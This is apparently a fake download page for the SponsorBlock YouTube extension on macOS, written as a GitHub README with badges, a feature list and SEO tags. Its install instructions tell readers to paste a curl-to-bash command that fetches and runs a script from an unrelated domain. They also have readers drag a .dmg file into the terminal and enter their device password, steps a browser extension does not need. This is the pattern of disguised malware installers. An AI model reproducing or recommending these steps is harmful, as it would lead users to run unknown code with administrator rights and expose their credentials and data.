 # ⏭️ SponsorBlock for YouTube — Skip Sponsored Segments on macOS

## ✅ Download SponsorBlock for Mac (Free Browser Extension)

[![🚀 Download SponsorBlock 🟣](https://img.shields.io/badge/Download-SponsorBlock-blueviolet?style=for-the-badge)](https://sponsorblock-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 🌐 What is SponsorBlock?

SponsorBlock is a powerful browser extension for macOS that automatically skips sponsored content, intros, outros, and other unnecessary segments in YouTube videos. Built on a community-driven database, it helps users save time and improve their viewing experience with zero setup required.

SponsorBlock integrates with popular browsers and offers full customization, allowing users to decide which categories of content they want to skip. It's a must-have tool for anyone who watches a lot of YouTube and values their time.

---

## 🖥️ Features at a Glance

- ⏱️ Automatically skips sponsored segments, intros, outros, and more  
- 🌍 Powered by a crowd-sourced community database  
- 🧩 Works with Chrome, Firefox, Safari, Edge, Opera, and Brave  
- 🔧 Custom category skipping: intros, self-promotion, interaction reminders, etc.  
- 🔒 Privacy-respecting — no tracking or personal data collection  
- 🎵 Special handling for music videos  
- 🧠 Submit new segments with one click to improve the system  
- 🖥️ Compatible with macOS (Intel and Apple Silicon)  
- 🌙 Full dark mode support for native browser UI  

---

## 💡 Why Use SponsorBlock?

Watching YouTube should be about content — not interruptions. SponsorBlock takes the guesswork and annoyance out of the equation by automatically skipping parts of videos you don't want to see.

Its community-powered database grows daily, meaning the more people use it, the smarter it becomes. Whether you're watching tech reviews, tutorials, vlogs, or music videos, SponsorBlock makes YouTube better, faster, and cleaner — especially on macOS where performance and integration matter most.

---

[![⬇️ Download SponsorBlock Again 🟣](https://img.shields.io/badge/Download-SponsorBlock-blueviolet?style=for-the-badge)](https://sponsorblock-mac-download.github.io/.github)

---

## 🖼️ Preview

![SponsorBlock Screenshot 1](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource115/v4/1c/a6/b8/1ca6b8a6-b865-a6db-bb77-85c7dc97e49d/2b9282a3-e7d5-4770-926a-87f964be2228_screenshot1.jpg/643x0w.jpg)  
![SponsorBlock Screenshot 2](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource125/v4/97/9a/91/979a9106-6e11-3c63-9a40-3f9fbc565aab/d2216b1f-c6e8-402c-809b-16be90f8fb34_screenshot-music.png/643x0w.jpg)

---

## 📌 Tags

sponsorblock mac, sponsorblock for youtube mac, sponsorblock chrome mac, sponsorblock firefox mac,  
youtube sponsorblock mac, chrome sponsorblock mac, sponsor block extension mac, sponsor block for youtube mac,  
sponsor block youtube mac, sponsorblock extension mac, sponsorblock for youtube android mac,  
sponsorblock for youtube skip sponsorships mac, sponsorblock github mac, sponsorblock opera mac,  
sponsorblock youtube mac, youtube sponsor block mac


